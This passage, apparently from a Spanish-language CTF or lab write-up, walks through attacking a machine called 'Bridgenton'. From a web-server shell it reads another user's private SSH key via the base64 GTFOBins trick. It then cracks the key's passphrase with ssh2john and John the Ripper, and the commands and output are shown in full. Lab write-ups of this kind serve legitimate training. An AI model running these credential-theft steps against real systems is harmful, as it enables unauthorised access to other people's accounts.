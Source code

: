 Si buscamos en **GTFOBins** el binario **base64**, encontraremos que puede ser usado para ver cualquier archivo de quien sea:
* <a href="https://gtfobins.github.io/gtfobins/base64/" target="_blank">GTFOBins: base64</a>

Ya sabemos que existe el **usuario james**, por lo que una idea sería robarle su llave privada **id_rsa**.

Podemos hacerlo de la siguiente manera, tal como lo explica **GTFOBins**:
```bash
www-data@Bridgenton:/var/www/html$ LFILE=/home/james/.ssh/id_rsa
www-data@Bridgenton:/var/www/html$ base64 "$LFILE" | base64 --decode
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jd
....
....
....
```

La copiamos en nuestra máquina y le asignamos sus permisos necesarios:
```bash
nano id_rsa
chmod 600 id_rsa
```

Intentemos entrar al **servicio SSH** con esta llave:
```bash
ssh -i id_rsa james@192.168.1.40
james@192.168.1.40's password:
```
No nos dejó.

Parece que será necesario crackearla, con tal de obtener la frase que se usó en su creación y que nos servirá de contraseña para entrar.

Usaremos **ssh2john** para darle un formato a la llave que pueda usar **JohnTheRipper**:
```bash
ssh2john id_rsa > hash
```

Ya solo la crackeamos y esperamos obtener la contraseña:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bowwow           (id_rsa)     
1g 0:00:00:11 DONE (2025-01-20 14:50) 0.08726g/s 27.92p/s 27.92c/s 27.92C/s 50cent..101010
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
La tenemos.

Probemos a ver si funciona:
```bash
ssh -i id_rsa james@192.168.1.40
james@192.168.1.40's password: 
Linux Bridgenton 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jan 20 19:36:24 2025 from Tu_IP
james@Bridgenton:~$ whoami
```
